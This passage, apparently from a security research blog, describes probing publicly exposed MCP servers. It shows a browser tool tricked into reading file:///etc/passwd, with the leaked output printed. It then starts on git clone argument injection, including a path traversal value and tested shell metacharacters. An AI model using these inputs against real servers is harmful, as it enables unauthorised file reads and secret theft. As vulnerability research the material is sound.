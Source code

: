 This got me thinking, would it also follow the `file://` protocol? Turns out it sure does! (top 10 Jorian genius moments (Jorian says he wouldn't classify it as top 10 but I'm still keeping it))

````hljs shell
$ mcpc http://35.██.███.███:8080 browser_navigate '{"url": "file:///etc/passwd"}'
Navigated to file:///etc/passwd

- Page URL: file:///etc/passwd
- Page Title:
- Page Snapshot
```yaml
- text: root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
    node:x:1000:1000::/home/node:/bin/bash systemd-network:x:998:998:systemd
```
````

With this we can leak any file on the system, trying to get source code, secrets, etc., and potentially exploit more with the things we find.

#### Git clone argument injection

This next one was certainly the most technically interesting exploit:

```hljs shell
$ mcpc http://174.███.██.██
=== http://174.███.██.██ ===
Name: 'MCP'
-> Tools:
   1. Clone a GitHub repository
      g_clone '{"repo_url": "", "target_dir?": ""}'
   2. Pull latest changes from GitHub
      g_pull '{"repo_dir": ""}'
   3. Push changes to GitHub
      g_push '{"repo_dir": "", "message": ""}'
```

We have some options to interact with GitHub repositories, like cloning a URL into some directory. While already sounding like potential for path traversal in the `target_dir`, it is also likely that the `git clone ...` shell command is used, which could hint at Command Injection. From testing, there are no errors when specifying a `"target_dir": "../../../../tmp/somewhere"`, but we also don't know anything about the underlying system. This makes it hard to confirm let alone exploit this potential arbitrary file write. Command Injection would be easy impact, but after trying a bunch of characters like ```'";&$()`` ```, they all seem to be escaped correctly in an error message, so these are likely not being interpreted as special shell characters.

The code may look something like this:

```hljs py
import subprocess

subprocess.run(["git", "clone", repo_url, target_dir])
```
